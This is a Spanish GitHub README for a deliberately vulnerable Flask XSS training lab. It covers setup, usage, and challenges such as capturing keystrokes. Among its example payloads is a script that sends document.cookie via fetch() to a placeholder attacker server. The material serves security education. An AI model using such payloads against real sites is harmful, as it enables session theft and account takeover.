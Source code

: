 # [🛡️ XSS Lab Interactive](https://xsslabinteractive.pythonanywhere.com/)  

*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)
